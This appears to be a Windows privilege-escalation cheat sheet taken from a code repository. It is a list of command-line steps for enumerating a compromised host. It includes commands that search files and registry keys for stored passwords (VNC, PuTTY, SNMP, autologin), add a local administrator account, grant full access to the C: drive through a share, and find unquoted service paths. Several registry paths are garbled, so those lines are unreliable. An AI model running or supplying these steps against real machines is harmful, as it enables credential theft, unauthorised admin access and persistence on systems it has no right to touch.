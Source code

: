 * os and hostname information
  ===========================

    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

    hostname 

    echo %username%

    net users

    net user username1


* network interfaces
  ==================

    ipconfig /all

    route print

    arp -A

    netstat -ano


* netsh - firewall
  ================

    netsh firewall show state

    netsh firewall show config

* process list
  =============

    tasklist /SVC

    schtasks /query /fo LIST /v

    net start

    DRIVERQUERY

* Patches
  =======

    wmic qfe get Caption,Description,HotFixID,InstalledOn

* check for pass
  ==============

    dir /s *pass* == *cred* == *vnc* == *.config*

    findstr /si password *.xml *.ini *.txt

    reg query HKLM /f password /t REG_SZ /s
   
    reg query HKCU /f password /t REG_SZ /s

* Add user with Admin privileges
  ==============================

    net user /add username password

    net localgroup administrators username /add

    net share SHARE_NAME=c:\ /grant:username,full

(**or**)

    net share concfg*C:\/grant:username,full 

* check user privileges
  =====================

    accesschk.exe -uqcqv "Authenticated Users" *


* Autologin
  =========

    reg query "HKLM\SOFTWARE\Microsoft\somedir\Currentversion\Winlogon"


* other passwords of interest
  ===========================

    reg query "HKCU\Software\ORL\Win VNC3\Password"

    reg query "HKLM\SYSTEM\Current\Control Set\Services\SNMP"

    reg query "HKCU\Software\somename\PuTTy\Sessions"


* unquoted file path
  ==================

    wmic service get name,displayname,pathname,startmode | findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """


* Permissions on directories
  ==========================

    icacls

    cacls


